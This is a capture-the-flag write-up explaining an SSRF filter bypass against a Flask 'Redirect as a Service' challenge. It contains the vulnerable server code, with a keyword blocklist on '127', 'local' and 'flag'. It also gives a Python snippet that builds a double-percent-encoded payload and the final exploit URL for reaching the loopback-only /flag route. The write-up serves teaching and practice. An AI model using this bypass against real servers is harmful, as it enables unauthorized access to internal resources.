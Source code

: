 # Simple Servers Real Fun

> Points: 200

> Category: Web

## Description

Check out my new Redirect as a Service website!

## Attachments

https://simple-servers-real-fun.robinjadoul.repl.co/

## Solution

The first thing that caught my eye is the **/flag** route, because that is the route that will output the flag.

```py
if ipaddress.ip_address(flask.request.remote_addr).is_loopback:
	return open("flag.txt").read()
```

It seems as if the only way to return the flag is if the web server requests the page itself (because it only reads the file if the ip is a [loopback address](https://www.techopedia.com/definition/2440/loopback-address-ip-address)).

The **/hit_it** route appears to make requests to the server, so that is what we are going to have to use to get the flag.


```py
def hit_it():
    target = flask.request.args.get("it")
    if not target:
        return "Aww?"
    if any(x in target for x in ["127", "local", "flag"]):
        return "Nah, bruv"
    return requests.get(target).text
```

```py
if __name__ == "__main__":
    app.run("0.0.0.0", 5000)
```

From the code above, we know what local IP and port the server is running on. We just need to find a way to the **/flag** route. So far our GET request looks like this

``https://simple-servers-real-fun.robinjadoul.repl.co/?it=http://0.0.0.0:5000/``

1. Convert each character in the string **flag** (the route name) to it's corresponding hex value and prepend a percent sign to it. (Ex. f -> %66)

2. Keep on appending these percent encoded hex values to the localserver URL

3. URL encode the final string


```py
# Python3

import urllib.parse

hexURLencString = "http://0.0.0.0:5000/"
for i in "flag":
    hexURLencString += "%" + str(hex(ord(i))[2:])
# hexURLencString is equal to http://0.0.0.0:5000/%66%6c%61%67

# URL encode
print(urllib.parse.quote_plus(hexURLencString))

# OUTPUT: http%3A%2F%2F0.0.0.0%3A5000%2F%2566%256c%2561%2567
```

Pass the encoded URL we just generated as the **it** arg.

``https://simple-servers-real-fun.robinjadoul.repl.co/hit_it?it=http%3A%2F%2F0.0.0.0%3A5000%2F%2566%256C%2561%2567``


### Flag
> ictf{mind_the_ssrf_bypass}

